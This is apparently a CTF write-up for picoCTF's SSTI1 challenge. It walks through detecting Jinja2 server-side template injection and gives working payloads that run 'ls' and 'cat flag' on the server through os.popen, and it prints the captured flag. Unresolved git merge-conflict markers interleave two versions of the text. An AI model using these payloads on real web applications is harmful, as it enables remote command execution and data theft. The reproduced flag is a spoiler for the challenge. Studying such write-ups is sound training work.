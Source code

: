 # SSTI1

## Description
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

I heard templating is a cool and modular way to build web apps! Check out my website here!

## About the Challenge

<<<<<<< HEAD
Hint Given: Server Side Template Injection.

**Server Side Template Injection**  is when a threat actor exploits a template's native syntax and inject malicious payloadas into template. Compromised template is then executed server side. Attackers use the server-side template injection technique to directly insert user input into templates, allowing them to  introduce arbitrary directives that alter the template's engine. 

Upon opening the website in a new tab, I am greeted wiith a page that allows me to 'announce whatever you want" in the textbox as shown below:

![alt text](<Screenshot 2025-08-19 140244-1.png>)


## How to Solve?

Given the hint, it can be inferred that the vulnerability lies in lack of proper user input sanitisation, which allow attackers to input malicious scripts.

Firstly, lets test this theory by inputting {{8*8}} in the textbox, a common template expression for Jinja2 in Python's Flask. 

![alt text](<Screenshot 2025-08-19 150807.png>)

After pressing okay, the website processes the input and ouputs **64**
![alt text](<Screenshot 2025-08-19 150826.png>)

Hence, this confirms that server operates on Jinja2, and this allows me to proceed with next steps.

Using a different expression, we can obtain more information on where the flag is. Expression is shown below:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

This list out all working directories and upon running this expression, following result is shown:

![alt text](<Screenshot 2025-08-19 151548.png>)

By modifying the expression to obtain the flag:
=======

![alt text](<Screenshot 2025-05-24 050359.png>)

## How to Solve?

Test run
![alt text](<Screenshot 2025-05-24 051149.png>)![alt text](<Screenshot 2025-05-24 051156.png>)
Suspected SSTI

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![alt text](<Screenshot 2025-05-24 051302.png>)
>>>>>>> 8ecf724df7d6731aee5ead2badd16e2636a09dd4

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
<<<<<<< HEAD

WE ARE ABLE TO OBTAIN THE FLAG! 
![alt text](<Screenshot 2025-08-19 151739.png>)

Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
=======
![alt text](<Screenshot 2025-05-24 051417.png>)
>>>>>>> 8ecf724df7d6731aee5ead2badd16e2636a09dd4
